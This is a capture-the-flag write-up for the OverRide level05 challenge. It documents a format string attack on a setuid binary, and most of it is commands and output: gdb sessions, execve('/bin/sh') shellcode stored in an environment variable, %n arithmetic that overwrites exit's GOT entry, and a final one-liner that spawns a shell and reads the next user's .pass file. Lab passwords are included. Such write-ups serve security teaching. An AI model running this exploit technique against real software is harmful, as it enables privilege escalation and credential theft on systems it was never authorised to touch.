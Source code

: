 # Format String Attack

```shell
┌──$ [~/42/2022/override]
└─>  ssh 192.168.56.101 -p 4242 -l level05
           ____                  ____  _     __   
          / __ \_   _____  _____/ __ \(_)___/ /__ 
         / / / / | / / _ \/ ___/ /_/ / / __  / _ \
        / /_/ /| |/ /  __/ /  / _, _/ / /_/ /  __/
        \____/ |___/\___/_/  /_/ |_/_/\__,_/\___/ 
                                          
                       Good luck & Have fun

   To start, ssh with level00/level00 on 192.168.56.101:4242
level05@192.168.56.101's password: 3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level05/level05
```
Only one `main()` function is defined in the executable.
It gets users input, decapitalize and print, following by exit with status 0.

Even though the stack is executable, at the first glance shellcode can be placed in the buffer. But the redirection of the flow to the stack will not work, as the program modify user input.
```shell
level05@OverRide:~$ readelf -a level05 | grep STACK
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x4
```
```
SHELLCODE = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
```
```
Breakpoint 1, 0x0804847a in main ()
gdb-peda$ x/25wx 0xffffd698
0xffffd698:     0x080497e0      0x080497e2      0x90909090      0x90909090
0xffffd6a8:     0x90909090      0x90909090   >>>0x6850c031<<<   0x68732f2f
0xffffd6b8:     0x69622f68   >>>0x50e3896e<<  >>0xb0e18953<<<   0x2580cd0b
0xffffd6c8:     0x39383435      0x31257837      0x256e2430      0x39353031
0xffffd6d8:     0x31257831      0x906e2431      0x90909090      0x90909090
0xffffd6e8:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd6f8:     0x00909090
gdb-peda$ x/25wx 0xffffd698
gdb-peda$ continue
Breakpoint 2, 0x08048513 in main ()
gdb-peda$ x/25wx 0xffffd698
0xffffd698:     0x080497e0      0x080497e2      0x90909090      0x90909090
0xffffd6a8:     0x90909090      0x90909090   >>>0x6870c031<<<   0x68732f2f
0xffffd6b8:     0x69622f68   >>>0x70e3896e<<  >>0xb0e18973<<<   0x2580cd0b
0xffffd6c8:     0x39383435      0x31257837      0x256e2430      0x39353031
0xffffd6d8:     0x31257831      0x906e2431      0x90909090      0x90909090
0xffffd6e8:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd6f8:     0x00909090
```

The issue is that `printf()` is missuded which expose the application to the Format String Attack.
FSA allows to apply overwrite of GOT table where address of `exit()` is stored.

Determine addresses of `system()` and `"/bin/sh"` as well as where `exit()` is stored.
```
gdb-peda$ print system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
gdb-peda$
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0xf7f897ec ("/bin/sh")
gdb-peda$
gdb-peda$ x/i main+207
  0x8048513 <main+207>: call 0x8048370 <exit@plt>
gdb-peda$ disassemble 0x8048370
Dump of assembler code for function exit@plt:
  0x08048370 <+0>:  jmp  DWORD PTR ds:0x80497e0
  0x08048376 <+6>:  push 0x18
  0x0804837b <+11>: jmp  0x8048330
End of assembler dump.
gdb-peda$ x 0x80497e0
  0x80497e0 <exit@got.plt>: 0x08048376
```

Input recognizable characters to determine how far away input is layed on the stack.

> Note that due to XOR operation upercase character will be inverted, A(41) will be a(61).

```shell
level05@OverRide:~$ python -c 'print("AAAABBBB" + "%x "*11)' | ./level05
aaaabbbb00000064 f7fcfac0 f7ec3add ffffd6df ffffd6de 00000000 ffffffff ffffd764 f7fdb000 61616161 62626262
```
Input string starts with offset 10.
```
        [1]      [2]      [3]      [4]      [5]      [6]      [7]      [8]      [9]      [10]     [11]
aaaabbbb00000064 f7fcfac0 f7ec3add ffffd6df ffffd6de 00000000 ffffffff ffffd764 f7fdb000 61616161 62626262
```

Export [shellcode](http://shell-storm.org/shellcode/files/shellcode-811.php) into environment variables and  retrieve the address where it is lay.
Devide the address per byte  and calculate for each number of characters that need to be printen by `%x` and written by `%n`.
```
0xffffdedb
0xdb -> 0x0db-16 = 203
0xde -> 0x1de-16-203 = 259
0xff -> 0x1ff-16-259-203 = 33
0xff -> 0x2ff-16-259-203-33 = 256
```

# Exploit
```shell
level05@OverRide:~$ export SHELL_CODE=$(python -c "print '\x90'*100 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'")
level05@OverRide:~$ ./getenv SHELL_CODE
SHELL_CODE at 0xffffdedb
level05@OverRide:~$ (python -c 'import struct; print(struct.pack("I", 0x080497e0) + struct.pack("I", 0x080497e1) + struct.pack("I", 0x080497e2) + struct.pack("I", 0x080497e3) + "%203x%10$n" + "%259x%11$n" + "%33x%12$n" + "%256x%13$n")'; echo 'id; cat /home/users/$(whoami)/.pass') | ./level05
                                                                                                                                                                                                         64                                                                                                                                                                                                                                                           f7fcfac0                         f7ec3af9                                                                                                                                                                                                                                                        ffffd65f
uid=1005(level05) gid=1005(level05) euid=1006(level06) egid=100(users) groups=1006(level06),100(users),1005(level05)
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```
